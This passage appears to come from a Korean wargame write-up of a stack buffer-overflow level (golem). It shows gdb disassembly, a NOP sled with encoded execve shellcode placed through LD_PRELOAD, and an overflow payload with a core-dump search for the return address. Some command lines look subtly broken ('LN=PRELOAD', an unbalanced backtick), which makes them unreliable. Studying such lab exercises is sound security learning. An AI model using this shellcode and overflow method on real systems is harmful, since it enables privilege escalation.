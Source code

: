 ```
0x80484e3 <main+115>:	add    %esp,8
0x80484e6 <main+118>:	push   44
0x80484e8 <main+120>:	push   0
0x80484ea <main+122>:	lea    %eax,[%ebp-40]
0x80484ed <main+125>:	push   %eax
0x80484ee <main+126>:	call   0x8048398 <memset>
0x80484f3 <main+131>:	add    %esp,12
0x80484f6 <main+134>:	lea    %eax,[%ebp-40]
0x80484f9 <main+137>:	mov    %edx,0xbfffffcf
0x80484fe <main+142>:	mov    %ecx,%edx
0x8048500 <main+144>:	sub    %ecx,%eax
0x8048502 <main+146>:	mov    %eax,%ecx
0x8048504 <main+148>:	push   %eax
0x8048505 <main+149>:	push   0
0x8048507 <main+151>:	lea    %eax,[%ebp-40]
0x804850a <main+154>:	lea    %edx,[%eax+48]
0x804850d <main+157>:	push   %edx
0x804850e <main+158>:	call   0x8048398 <memset>
0x8048513 <main+163>:	add    %esp,12
0x8048516 <main+166>:	leave
0x8048517 <main+167>:	ret
0x8048518 <main+168>:	nop
0x8048519 <main+169>:	nop
0x804851a <main+170>:	nop
0x804851b <main+171>:	nop
0x804851c <main+172>:	nop
0x804851d <main+173>:	nop
0x804851e <main+174>:	nop
0x804851f <main+175>:	nop
```

### 3. exploit code

```
mkdir tmp
touch /home/skeleton/tmp`python -c 'print "\x90"*200+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
export LN=PRELOAD=/home/skeleton/tmp`python -c 'print "\x90"*200+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
```

우선 쉘 코드를 LD_PRELOAD 에 삽입을 해야 한다. 이후에는 좀 재밌게 되는데....

```
cp ~/golem test
./test python -c 'print "A"*44+"\xbf\xbf\xbf\xbf"'`
segmentation fault core
gdb -q -c core
```

코어 덤프를 통해 실제로 쉘코드가 있는 주소를 찾아야 하는데... 이 부분이 진짜 개삽질이었다...

